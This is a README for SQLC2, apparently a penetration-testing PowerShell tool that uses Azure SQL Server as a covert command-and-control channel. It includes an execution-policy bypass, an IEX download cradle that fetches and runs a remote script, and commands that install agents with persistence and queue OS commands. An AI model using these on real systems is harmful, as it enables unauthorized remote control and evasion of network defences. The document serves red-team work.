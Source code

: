 # SQLC2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  At its core, SQLC2 is just a PowerShell script, a TSQL script, and a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements. 

For a more complete overview of SQLC2 check out the blog at https://blog.netspi.com/.

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love to hear any feedback you have.

 Although there is an emphasis on using it with Azure SQL Server instances, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.psm1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.psm1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):

`Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):

`Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:

`Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:

`Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
-Command "Whoami" -ServerName MSSQLSRV04`

![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:

`Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       


